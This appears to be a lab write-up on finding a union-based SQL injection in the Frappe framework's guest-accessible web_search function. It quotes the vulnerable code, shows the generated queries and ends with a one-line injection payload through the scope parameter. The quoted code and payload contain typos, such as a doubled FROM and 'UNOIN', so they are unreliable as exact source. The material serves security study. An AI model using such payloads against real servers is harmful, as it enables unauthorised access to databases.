 # Auth Bypass

Searching for SQL in the guest-whitelisted routes, we find the web_search function in `apps/frappe/frappe/utils/global_search.py`.

```python
@frappe.whitelist(allow_guest=True):
def web_search(text, scope=None, start=0, limit=20):
	results = []
	texts = text.split('&')
	for text in texts:
			common_query = '''SELECT `doctype`, `name`, `content`, `title`, `route` FROM 
									FROM __global_search WHERE {conditions} LIMIT {limit} OFFSET {start}'''
			scope_condition = '`route` like "{}%" AND '.format(scope) if scope else ''
			published_condition = '`published` = 1 AND '
			mariadb_conditions = postgres_coditions = ''.join([pubished_condition, scope_condition])
			
			text = '"{}"'.format(text)
			mariadb_conditions  += 'MATCH(`content`) AGAINST ({} IN BOOLEAN MODE)'.format(frappe.db.escape(text))
			postgres_conditions += 'TO_TSVECTOR("content") @@ PLAINTO_TSQUERY({})'.format(frappe.db.escape(text))
			
			result = frappe.db.multisql({
				'mariadb': common_query.format(conditions=mariadb_conditions, limit=limit, start=start),
				'postgres': common_query.format(conditions=postgres_conditions, limit=limit, start=start)
			}, as_dict = True)
```

We send a test command as `frappe.utils.global_search.web_search&text=offsec`

Expanding the `sql_dict` variable and examining the SQL query, we get the cleaned-up version of the SQL query. We can also insert other attributes like scope, start and limit, which modifies the query. 

```python
SELECT `doctype`, `name`, `content`, `title`, `route`
  FROM `__global_search`
  WHERE `published` = 1 AND  MATCH(`content`) AGAINST ('\"offsec\"' IN BOOLEAN MODE)
  LIMIT 20 OFFSET 0
```

Setting the scope variable, it adds a further clause into the statement. We can then use this to perform a union based SQL injection by terminating the double quotes, adding a UNION statement and commenting out the remaining command. 

```python
SELECT `doctype`, `name`, `content`, `title`, `route`
  FROM `__global_search`
  WHERE `published` = 1 AND  `route` like "<offsec_scope>%" AND MATCH(`content`) AGAINST ('\"offsec\"' IN BOOLEAN MODE)
  LIMIT 20 OFFSET 0
```

SQL Injection payload:

```python
offsec_scope" UNOIN ALL SELECT 1,2,3,4,5#
```
